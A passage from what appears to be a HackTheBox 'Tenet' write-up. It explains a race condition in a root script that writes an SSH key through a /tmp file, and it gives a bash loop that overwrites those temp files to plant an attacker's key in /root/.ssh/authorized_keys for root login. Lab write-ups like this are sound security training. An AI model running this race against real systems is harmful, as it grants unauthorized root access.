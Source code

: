 ```bash
        checkFile $tmpName

        /bin/cat $tmpName >>/root/.ssh/authorized_keys

        /bin/rm $tmpName

}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

This script will basically create a temporary file with `mktemp -u /tmp/ssh-XXXXXXXX`, then check if the file is empty and if it is an actual file. If the check passes, the content of the `$key` variable will be appended to it. And finally the temporary will appended to `/root/.ssh/authorized_keys`.

The logic of this script opens the door for a potential race condition attack when the script is checking the newly created file (in the `checkFile()` function). 

To exploit it, we can create a script that will constantly update all temporary file by writting into them our ssh public key. We win the race if our update happens after the check, this will add our public key into `/root/.ssh/authorized_keys` effectively allowing us to login as root.

```bash
while true; do
    for tempfile in $(ls /tmp/ssh-*); do
        echo "<KEY_HERE>" > $tempfile;
    done;
done
```

We will have to run `/usr/local/bin/enableSSH.sh` multiple times until we win the race (the updating script should be running in the background):

{{<figure src="/img/htb/tenet/race_won.png" position=center caption="Race Condition won">}}

We can now login as root with the corresponding private key and retrieve the root flag:

{{<figure src="/img/htb/tenet/root.txt.png" position=center caption="Root flag obtained !">}} 
